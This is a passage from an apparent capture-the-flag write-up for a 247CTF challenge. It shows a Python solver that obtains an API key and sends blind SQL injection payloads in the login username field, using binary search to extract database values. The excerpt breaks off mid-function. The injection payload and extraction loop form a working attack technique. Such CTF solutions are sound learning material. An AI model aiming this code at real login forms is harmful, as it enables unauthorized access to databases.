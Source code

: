 ## Solution

solver.py

```python
import re
import requests

requests.packages.urllib3.disable_warnings()
s = requests.Session()
# s.proxies = {"https": "http://127.0.0.1:8080"}
s.verify = False

BASE_URL = "https://2956d8202a6efc07.247ctf.com"

def get_token():
    res = s.get(f"{BASE_URL}/api/get_token")
    m = re.findall(
        r"The API key has been reset to ([0-9a-f]{32})!",
        res.json().get("message"),
    )

    if not m:
        print("not found m")
        return

    return m[0]


def sqli(payload, token=None):
    if not token:
        token = get_token()

    res = s.post(
        f"{BASE_URL}/api/login",
        data={"username": payload, "password": "", "api": token},
    )

    if res.json()["message"] in [
        "Sorry, your API key is only valid for 128 uses!",
        "SQLite error!",
    ]:
        raise Exception(f'Error: {res.json()["message"]}')

    return res.json()["result"] == "success"


def binary_search_leftmost(l, r, payload_with_m, token=None):
    while l < r:
        m = (l + r) // 2
        print(f"{m}    ", end="\r", flush=True)
        if sqli(payload_with_m.format(m=m), token=token):
            l = m + 1
        else:
            r = m

    # print()
    return l


def main():
    sqlite_version_length = 6
    # sqlite_version_length = binary_search_leftmost(
    #     0, 100, "admin' AND LENGTH(sqlite_version()) > {m}--"
```